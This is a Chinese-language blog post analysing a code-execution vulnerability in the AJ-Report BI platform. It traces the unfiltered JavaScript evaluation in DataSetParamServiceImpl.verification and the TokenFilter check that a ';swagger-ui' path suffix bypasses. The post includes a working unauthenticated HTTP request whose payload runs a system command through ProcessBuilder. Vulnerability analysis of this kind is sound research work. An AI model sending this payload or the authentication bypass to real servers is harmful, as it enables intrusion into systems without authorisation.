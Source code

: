 #  AJ-Report代码执行漏洞分析   
原创 莫大130  安全逐梦人   2024-05-04 16:52  
  
# AJ-Report代码执行漏洞分析  
  
AJ-Report是全开源的一个BI平台，酷炫大屏展示，能随时随地掌控业务动态，让每个决策都有数据支撑  
  
DataSetParamController 中verification 方法未对传入的参数进行过滤，可以执行JavaScript函数，导致命令执行漏洞。  
## 环境搭建  
  
将源码下并使用IDEA打开  
```
git clone https://gitee.com/anji-plus/report.git 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojibLPXqojhXOYTZib2t1ic4L0QPgqhHU8icreMHrOxpMXEswxlsQdCiczZBg/640?wx_fmt=png&from=appmsg "")  
### 配置mysql  
  
创建数据 aj_report ，数据库sql文件在resources/db.migration 目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojt6CcaMwmXy4kVzJQ4F9M6Kcc1rRd29xkIhgJ30eXWDH4VsMK2lzSGQ/640?wx_fmt=png&from=appmsg "")  
  
配置文件存储路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojiab2ljtktJciauBBugGhibeY0hEKibcH82nzhjA9lctjKeNEcUP2uHicneA/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1 Host: 192.168.0.100:9095 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Accept-Encoding: gzip, deflate, br Accept-Language: zh-CN,zh;q=0.9 Content-Type: application/json;charset=UTF-8 Connection: close  {"sampleItem":"1","validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"whoami\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"} 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojF3RfVMcgqgB2q0Q8xfIdO3KicEVoibkK0QpVj8mzQhxibXhQo3pR3RPrw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojRuZiaWSmL9ZZMNZMFlWqaBb4rh1y284UAdreicGZFJFceicZlbGvsicwicw/640?wx_fmt=png&from=appmsg "")  
## 代码分析  
### 漏洞路径  
  
\report\report-core\src\main\java\com\anjiplus\template\gaea\business\modules\datasetparam\controller\DataSetParamController.java  
#### verification  
```
    @PostMapping("/verification")     public ResponseBean verification(@Validated @RequestBody DataSetParamValidationParam param) {         DataSetParamDto dto = new DataSetParamDto();         dto.setSampleItem(param.getSampleItem());         dto.setValidationRules(param.getValidationRules());         return responseSuccessWithData(dataSetParamService.verification(dto));     } 
```  
  
param 接受传入的值  
```
@Data public class DataSetParamValidationParam implements Serializable {      /** 参数示例项 */     @NotBlank(message = "sampleItem not empty")     private String sampleItem;       /** js校验字段值规则，满足校验返回 true */     @NotBlank(message = "validationRules not empty")     private String validationRules; } 
```  
  
需要接受的参数 sampleItem ，validationRules  
  
并将这个参数传入dataSetParamService.verification(dto)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojKbVkrxDwG3Hta5jVjnwjvdfcm3NwW6rfSiciaTY5I4gMhibYkddPu2QUQ/640?wx_fmt=png&from=appmsg "")  
#### DataSetParamServiceImpl.java  
  
该类中实现了 verification 方法  
```
  package com.anjiplus.template.gaea.business.modules.datasetparam.service.impl;  import com.anji.plus.gaea.curd.mapper.GaeaBaseMapper; import com.anji.plus.gaea.exception.BusinessExceptionBuilder; import com.anjiplus.template.gaea.business.modules.datasetparam.controller.dto.DataSetParamDto; import com.anjiplus.template.gaea.business.modules.datasetparam.dao.DataSetParamMapper; import com.anjiplus.template.gaea.business.modules.datasetparam.dao.entity.DataSetParam; import com.anjiplus.template.gaea.business.modules.datasetparam.service.DataSetParamService; import com.anjiplus.template.gaea.business.modules.datasetparam.util.ParamsResolverHelper; import com.anjiplus.template.gaea.business.code.ResponseCode; import com.fasterxml.jackson.databind.ObjectMapper; import lombok.extern.slf4j.Slf4j; import org.apache.commons.lang3.StringUtils; import org.springframework.beans.factory.annotation.Autowired; import org.springframework.stereotype.Service;  import javax.script.Invocable; import javax.script.ScriptEngine; import javax.script.ScriptEngineManager; import java.util.HashMap; import java.util.List; import java.util.Map;  /** * @desc DataSetParam 数据集动态参数服务实现 * @author Raod * @date 2021-03-18 12:12:33.108033200 **/ @Service //@RequiredArgsConstructor @Slf4j public class DataSetParamServiceImpl implements DataSetParamService {      private ScriptEngine engine;     {         ScriptEngineManager manager = new ScriptEngineManager();         engine = manager.getEngineByName("JavaScript");     }      @Autowired     private DataSetParamMapper dataSetParamMapper;      @Override     public GaeaBaseMapper<DataSetParam> getMapper() {       return dataSetParamMapper;     }      /**      * 参数替换      *      * @param contextData      * @param dynSentence      * @return      */     @Override     public String transform(Map<String, Object> contextData, String dynSentence) {         if (StringUtils.isBlank(dynSentence)) {             return dynSentence;         }         if (dynSentence.contains("${")) {             dynSentence = ParamsResolverHelper.resolveParams(contextData, dynSentence);         }         if (dynSentence.contains("${")) {             throw BusinessExceptionBuilder.build(ResponseCode.INCOMPLETE_PARAMETER_REPLACEMENT_VALUES, dynSentence);         }         return dynSentence;     }      /**      * 参数替换      *      * @param dataSetParamDtoList      * @param dynSentence      * @return      */     @Override     public String transform(List<DataSetParamDto> dataSetParamDtoList, String dynSentence) {         Map<String, Object> contextData = new HashMap<>();         if (null == dataSetParamDtoList || dataSetParamDtoList.size() <= 0) {             return dynSentence;         }         dataSetParamDtoList.forEach(dataSetParamDto -> {             contextData.put(dataSetParamDto.getParamName(), dataSetParamDto.getSampleItem());         });         return transform(contextData, dynSentence);     }      /**      * 参数校验  js脚本      *      * @param dataSetParamDto      * @return      */     @Override     public Object verification(DataSetParamDto dataSetParamDto) {          String validationRules = dataSetParamDto.getValidationRules();         if (StringUtils.isNotBlank(validationRules)) {             try {                 engine.eval(validationRules);                 if(engine instanceof Invocable){                     Invocable invocable = (Invocable) engine;                     Object exec = invocable.invokeFunction("verification", dataSetParamDto);                     ObjectMapper objectMapper = new ObjectMapper();                     if (exec instanceof Boolean) {                         return objectMapper.convertValue(exec, Boolean.class);                     }else {                         return objectMapper.convertValue(exec, String.class);                     }                  }              } catch (Exception ex) {                 throw BusinessExceptionBuilder.build(ResponseCode.EXECUTE_JS_ERROR, ex.getMessage());             }          }         return true;     }      /**      * 参数校验  js脚本      *      * @param dataSetParamDtoList      * @return      */     @Override     public boolean verification(List<DataSetParamDto> dataSetParamDtoList, Map<String, Object> contextData) {         if (null == dataSetParamDtoList || dataSetParamDtoList.size() == 0) {             return true;         }          for (DataSetParamDto dataSetParamDto : dataSetParamDtoList) {             if (null != contextData) {                 String value = contextData.getOrDefault(dataSetParamDto.getParamName(), "").toString();                 dataSetParamDto.setSampleItem(value);             }              Object verification = verification(dataSetParamDto);             if (verification instanceof Boolean) {                 if (!(Boolean) verification) {                     return false;                 }             }else {                 //将得到的值重新赋值给contextData                 if (null != contextData) {                     contextData.put(dataSetParamDto.getParamName(), verification);                 }                 dataSetParamDto.setSampleItem(verification.toString());             }          }         return true;     }  }  
```  
##### verification  
```
   @Override     public Object verification(DataSetParamDto dataSetParamDto) {          String validationRules = dataSetParamDto.getValidationRules();         if (StringUtils.isNotBlank(validationRules)) {             try {                 engine.eval(validationRules);                 if(engine instanceof Invocable){                     Invocable invocable = (Invocable) engine;                     Object exec = invocable.invokeFunction("verification", dataSetParamDto);                     ObjectMapper objectMapper = new ObjectMapper();                     if (exec instanceof Boolean) {                         return objectMapper.convertValue(exec, Boolean.class);                     }else {                         return objectMapper.convertValue(exec, String.class);                     }                  }              } catch (Exception ex) {                 throw BusinessExceptionBuilder.build(ResponseCode.EXECUTE_JS_ERROR, ex.getMessage());             }          }         return true;     } 
```  
```
    private ScriptEngine engine;     {         ScriptEngineManager manager = new ScriptEngineManager();         engine = manager.getEngineByName("JavaScript");     } 
```  
  
engine.eval(validationRules): 这行代码使用了一个 engine是 ScriptEngine 的一个实例，来执行传入的 validationRules 字符串，即执行一段 JavaScript 代码。  
  
if(engine instanceof Invocable) 这里检查 engine 是否是 Invocable 接口的实例，如果是，表示这个引擎可以调用 JavaScript 函数。  
  
invocable.invokeFunction("verification", dataSetParamDto): 如果引擎可以调用，就调用名为 "verification" 的 JavaScript 函数，并传入一个 dataSetParamDto 对象作为参数。  
  
ObjectMapper objectMapper = new ObjectMapper(): 创建了一个ObjectMapper对象，用于处理 JSON 数据。  
```
 if (exec instanceof Boolean) {     return objectMapper.convertValue(exec, Boolean.class);   }else {      return objectMapper.convertValue(exec, String.class);  } 
```  
  
根据 exec 对象的类型进行处理，如果是布尔类型，则将其转换为 Java 中的 Boolean 类型；否则转换为 String 类型。  
  
return objectMapper.convertValue(...): 最后，根据 exec 的类型，使用 ObjectMapper 将其转换成相应的 Java 类型，并返回结果。  
### debug 调试  
  
下断点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojz6tXjV3OrLCWicMuNYoyib0nwHWdlZ1rIYV8bQFGsAdMR1kCk962gVFA/640?wx_fmt=png&from=appmsg "")  
  
validationRules 值为JavaScript 代码  
  
调用了ScriptEngineManager eval执行JavaScript 代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojMFNCAtgys6Csia4ANpyB8CciaY1GIChoFYfqmqJxiaViaGN91AEWiajXmBg/640?wx_fmt=png&from=appmsg "")  
### 权限验证  
  
正常访问 /dataSetParam/verification 路由是需要token验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojibBWQhJiaI57PunK42c6ooJzv9VUbicHoDxH4q2pAVsGv8cHfNW2t1gKA/640?wx_fmt=png&from=appmsg "")  
  
搜索 The Token has expired  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSoj29LFjTGcVdl3Nr0c3iaUbExZErUuSZBoqzE2YXwBFIX0EKaayAt4JwQ/640?wx_fmt=png&from=appmsg "")  
#### TokenFilter.java  
  
TokenFilter拦截器中，放行swagger-ui，swagger-resources  
```
if (uri.contains("swagger-ui") || uri.contains("swagger-resources")) {     filterChain.doFilter(request, response);     return; } 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSoj8PibvoQw5fNZkak6jTiaiaZa8Tv3U8QJshTcg341BYnItmV4IZe5DkcNA/640?wx_fmt=png&from=appmsg "")  
#### 使用URL截断绕过 ;  
  
swagger-ui，swagger-resources  
```
POST /dataSetParam/verification;swagger-ui HTTP/1.1  POST /dataSetParam/verification;swagger-resources HTTP/1.1 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSoj98B6QTPTkiawlZLsNKujkUDrmfqvFORawlHfkeMsJArdo6ByGXnK23Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSojbRBorSARqf4HpB5C10lBzxOiayAoCqR8ianmMIDapTxSzrdNdfvZlsag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz47sbjmIEkIHcV63QoFbSoj1ic7npBaS7iam41tck8pM8LEeQoiblxLicphUKbS84P09gb5rlUw3pf2Gg/640?wx_fmt=png&from=appmsg "")  
### 总结  
- verification方法传入参数validationRules，调用了ScriptEngineManager eval执行JavaScript 代码，导致的代码执行漏洞。  
  
- 使用; 绕过鉴权  
  
